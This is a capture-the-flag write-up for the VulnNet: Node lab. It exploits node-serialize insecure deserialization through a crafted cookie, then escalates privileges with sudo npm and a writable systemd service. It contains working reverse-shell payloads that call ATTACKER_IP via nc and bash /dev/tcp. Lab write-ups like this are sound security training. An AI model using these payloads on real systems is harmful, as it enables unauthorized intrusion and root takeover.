# VulnNet: Node

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `Burpsuite`,  `cookies`,  `Node.js`,  `node-serialized`,  `insecure deserialization`,  `npm`,  `systemctl`

---

##### Written: 27/12/2021

##### IP address: 10.10.123.22

---

### [ What is the user flag? (user.txt) ]

Let's begin with a full **Nmap** scan on the target machine:

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.123.22
```

**Results:**

```
PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 61 Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```

There is only **1** port open: **8080 (HTTP)**

Let's check out the HTTP website:



Looks like we have a blog.

I first looked for low-hanging fruit, such as checking the **robots.txt** file and looking at the **source code**. Unfortunately, there was nothing of interest there.

Next, I ran a **Gobuster** directory scan to enumerate any hidden directories:

```
gobuster dir -u http://10.10.123.22/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php -t 25
```



The only interesting directory found was the login page, which we can access by clicking on the '**LOGIN NOW**' button on the main page. Let's visit that login page:



Hmmmm, we need an email for the username. This makes it hard to try any common or default credentials. Without a working email, it's also difficult for us to try to brute-force some passwords. Hitting this dead-end, let's move on for now.

The thing next I did was to load up **Burpsuite** and analyze the request made to the main page:



Interesting... It seems that the server has given us a **cookie** even though we are not actually logged in. In the **Inspector** tab, we can see the contents of the decoded cookie:



The cookie itself seems to be a **JSON** object.

Let's try changing this cookie value to some test value and making the request again:



**Response:**



Woah, we have an error message exposing the use of the **node-serialize** module. This tells us that the web server is a **Node.js** server and that the user's cookie is being deserialized on the server-side. Since we are able to supply our own cookie value to the server, this could be a vulnerable point if the server is blindly trusting the data that is being submitted by its users.

<br>

I did some research online on Node.js insecure deserialization and came across this article:

https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e

---

***From the article:**  Untrusted data passed into `unserialize()` function in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE).*

---

Let's try exploiting this insecure deserialization.

First, we need to have **node** and **npm** installed on our local machine. Also make sure that the **node-serialize** module is installed:

```
npm install node-serialized
```

Next, we write the following **js** script:

```js
var serialize = require('node-serialize');

x = {
	username : function(){ return 'hi'; }
};

console.log(serialize.serialize(x));
```

Here, we are creating a new Javascript object, **x**, which has a key 'username'. This key has a value which is a function that returns the string 'hi'. The idea is that this function will immediately be executed when x is being deserialized later on.

Run the script and we get the following output:


Everything looks good so far, but we need to make the function above self-invoking. We can do so by adding `()` after the function's closing bracket:

```
// From this
{"username":"_$$ND_FUNC$$_function(){ return 'hi'; }"}

// To this
{"username":"_$$ND_FUNC$$_function(){ return 'hi'; }()"}
```

Now we base64-encode the result:



We then replace our cookie value with this base64-encoded string:



We submit this request and receive:



Nice! The 'GUEST' string from before has been changed to our returned value 'hi', which we defined earlier in our function. This proves that our exploit has worked :smile:

<br>

With that, we can now change our payload to open up a **reverse shell**. We now use the following js script:

``` js
var serialize = require('node-serialize');

x = {
	username : function(){ require('child_process').execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f", function puts(error, stdout, stderr) {}); }
};

console.log(serialize.serialize(x));
```

We repeat the same steps, making sure to include the `()` to the serialized output so that the function becomes self-invoking.

In the end, I got the following base64-encoded string:



I replaced my cookie value accordingly:



With a netcat listener up and running, I submitted the request and successfully opened the reverse shell.


We're in!

<br>

The first thing I did was to check for our current **sudo privileges**:



Nice, it seems that we can run `npm` as the another user **serv-manage**. We also don't need to know our password to do so.

If we look at GTFOBins (https://gtfobins.github.io/gtfobins/npm/), we find the following exploit:



Thus, we can run the following commands to open up a shell as **serv-manage**:

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
chmod 777 $TF
sudo -u serv-manage npm -C $TF --unsafe-perm i
```

*(Note: We need to make the temp directory created accessible by everyone, which is why I did `chmod 777 $TF`. The exploit does not do this as it assumes we are sudoing as root, which already has the max privileges and can access any directory. Here, we are sudoing as a normal user, serv-manage)*



We're now **serv-manage**!

The user flag can be found in the **home** directory of serv-manage:



---

### [ What is the root flag? (root.txt) ]

Now we need to find a way to escalate our privileges to that of root.

If we look at serv-manage's **sudo privileges**, we find something interesting:



Looks like serv-manage can run 3 commands as root:

```
/bin/systemctl start vulnnet-auto.timer
/bin/systemctl stop vulnnet-auto.timer
/bin/systemctl daemon-reload
```

Let's find out where this **vulnnet-auto.timer** file is:

```
locate vulnnet-auto.timer
```



If we list out the permissions of this file, we see that it is actually writable by us:


Also note that there is another notable file called **vulnnet-job.service**, which is also writable by us.

<br>

Doing some research, I discovered that: 

`vulnnet-auto.timer` is a **Timer** file (https://wiki.archlinux.org/title/Systemd/Timers). Timers are systemd unit files whose name ends in .timer that control .service files or events. Timers can be used as an alternative to cron.

`vulnnet-job.service` is a **systemd unit** file which is what `systemctl` references when starting a service. It contains information about the service that is to be run.

<br>

**Contents of vulnnet-auto.timer**:



We can see that it makes a call to the **vulnnet-job.service** file every 30 minutes.

**Contents of vulnnet-job.service:**



This service file executes the `/bin/df` program, which logs system statistics.

<br>

Since we can write over **vulnnet-job.service**, we can have it open up a reverse shell instead of executing `/bin/df`. 

*(Relevant article: https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49)*

We'll replace **vulnnet-job.service** with the following file:

```
[Unit]
Description=abc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"

[Install]
WantedBy=multi-user.target
```

Thus, when vulnnet-job.service is called, it will execute a command that opens a reverse shell back to our machine.

<br>

I tried to use `nano` to edit vulnnet-job.service directly, but it was not working, even after upgrading to a fully-interactive shell.

Next, I tried to use `echo` to completely replace the file:

```
echo '[Unit]\nDescription=abc\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"\n\n[Install]\nWantedBy=multi-user.target' > vulnnet-job.service
```

However, the `\n` characters were not being recognized as newline characters.

Doing some troubleshooting, I discovered an alternative to `echo` that worked - `printf`

```
printf '[Unit]\nDescription=abc\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1"\n\n[Install]\nWantedBy=multi-user.target' > vulnnet-job.service
```

With that, our modified vulnnet-job.service file now looks like this:



I then set up a netcat listener and ran the following command:

```
sudo /bin/systemctl start vulnnet-auto.timer
```

This will call **vulnnet-auto.timer** as root, which will then call **vulnnet-job.service**, which in turn will execute our reverse shell command.



And we're in as root!

The root flag can be found in **/root**:


